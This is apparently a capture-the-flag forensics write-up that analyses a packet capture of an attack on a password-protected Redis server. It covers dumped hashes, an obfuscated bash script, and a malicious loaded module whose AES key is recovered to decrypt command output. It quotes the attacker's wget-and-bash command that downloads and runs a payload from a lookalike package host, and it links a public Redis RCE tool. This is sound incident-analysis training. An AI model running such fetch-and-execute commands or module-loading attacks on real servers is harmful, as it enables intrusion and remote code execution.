# RedTrails
Difficulty: Medium

Type: Challenge

## Description
*Our SOC team detected a suspicious activity on one of our redis instance. Despite the fact it was password protected it seems that the attacker still obtained access to it. We need to put in place a remediation strategy as soon as possible, to do that it's necessary to gather more informations about the attack used. NOTE: flag is composed by three parts.*

## Solution
In this challenge we have a ``.pcap`` file which includes a capture of redis commands, the RESP protocol.



In the RESP protocol there are requests and responses. The request includes the command to the running redis instance and the response is the result that the redis returns. You can read more about RESP from official the documentation https://redis.io/docs/reference/protocol-spec/

If we follow the first TCP stream we can see what commands the attacker ran.


After authenticating successfully the attacker sends the DOCS command which return a huge amount of information about the documentation. However, after that the attacker prints all the values stored in the database (username and password hashes).



Scrolling more we see instead of a password hash, a part of the flag



Continuing the enumeration, we observe a HTTP stream with only one GET request and a response that has an obfuscated bash script. Interesting!


After deobfuscating 2 times and decoding the base64 content the final script looks like this

..and at the end of the rsa key we get the second part of the flag!

Now back to wireshark. The next redis commands are interesting.
The attacker seems to load a module named ``x10SPFHN.so`` and after that he executes some system commands such as rm, uname and wget. However, if we notice the response/result of these commands we see hex data instead of the actual result. Keep that in mind.

For now let's try to find more about the .so file. The ``.so`` files are shared libraries that contain executable code. So, we can extract the packet bytes and reconstruct the binary for reverse engineering. Right click on the packet frame -> copy as hex stream.

Then, with the help of a happy tool called ``xxd`` we can revert the hex stream to a binary

``xxd -r -ps hexDump.txt sofile.so``

and load the .so file to Ghidra.

Thankfully there are only 4 functions.



The most interesting one seem the ``DoCommand`` and here is why.



There are two hardcoded strings which later they are passed to an encryption function as key and iv. The encryption is AES-256 CBC mode. So, this module encrypts a command (?).

This makes sense since after the attacker loads the module, the result of the system commands are all in hex format, well.. more like encrypted. But we have the key and iv so we can easily decrypt those weird results.

This is the result of the ``system.exec uname -a``



Even more interesting is the output of the ``system.exec wget --no-check-certificate -O gezsdSC8i3 'https://files.pypi-install.com/packages/gezsdSC8i3' && bash gezsdSC8i3``



Which has the FLAG_PART we were looking for!

NOTE: This capture seems to be the result of a python exploit script that attempts RCE on a redis instance
https://github.com/Ridter/redis-rce?tab=readme-ov-file
